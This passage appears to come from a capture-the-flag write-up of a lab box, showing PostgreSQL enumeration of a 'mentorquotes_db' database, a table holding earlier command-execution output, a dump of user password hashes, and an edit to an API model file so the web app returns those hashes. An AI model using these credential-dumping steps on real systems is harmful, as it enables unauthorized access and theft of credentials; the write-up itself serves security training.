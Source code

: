     
    
    postgres=# \connect mentorquotes_db 
    psql (14.6 (Ubuntu 14.6-0ubuntu0.22.04.1), server 13.7 (Debian 13.7-1.pgdg110+1))
    You are now connected to database "mentorquotes_db" as user "postgres".
    mentorquotes_db=# \dt
              List of relations
     Schema |   Name   | Type  |  Owner   
    --------+----------+-------+----------
     public | cmd_exec | table | postgres
     public | quotes   | table | postgres
     public | users    | table | postgres
    (3 rows)
    

I have no idea what the `cmd_exec` table is. It has the output of `id` as the
postgres user:

    
    
    mentorquotes_db=# select * from cmd_exec;
                                   cmd_output                               
    ------------------------------------------------------------------------
     uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
    (1 row)
    

`users` shows two users (mine has been cleaned up it seems):

    
    
    mentorquotes_db=# select * from users;
     id |         email          |  username   |             password             
    ----+------------------------+-------------+----------------------------------
      1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
      2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
    (2 rows)
    

#### Alternative Method to Dump Hashes

Above I talked about how the model was preventing the hashes from being shown
back to the user. I also noted that `uvicorn` was running with `--reload`.

I’ll use `vi` to edit `/app/app/api/models.py`, adding `password` to the
model:

    
    
    class userDB(BaseModel):
        id: int
        email: str
        username: str
        password: str 
    

I’ll have to disconnect my shell, as the website doesn’t seem to load when I
have it connected. But then I can hit the API, and it gives the hashes:

![image-20230301154814543](https://0xdfimages.gitlab.io/img/image-20230301154814543.png)
